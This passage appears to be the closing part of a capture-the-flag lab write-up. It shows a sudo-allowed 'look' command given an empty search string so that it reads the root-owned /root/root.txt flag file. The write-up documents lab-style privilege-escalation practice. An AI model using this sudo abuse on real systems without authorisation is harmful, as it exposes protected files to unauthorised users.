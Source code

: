 ```bash
think@ip-10-10-219-52:~$ sudo look /root/root.txt
look: /usr/share/dict/words: No such file or directory
```

The command fails because the dictionary file doesn't exist. My first thought was to try creating a malicious `words` file, but a quick check shows we don't have write permissions in `/usr/share/dict/`.

However, the `look` command takes a search string as its first argument. What if the program doesn't actually *need* the dictionary file if we provide all the necessary arguments? Let's try giving it an empty string as the search term, which should match every line, and point it directly at the root flag.

```bash
think@ip-10-10-219-52:~$ sudo /usr/bin/look '' /root/root.txt
*********************************
```

And there it is! The root flag is ours. This was a super fun box with some great, realistic privilege escalation paths. Thanks for reading!
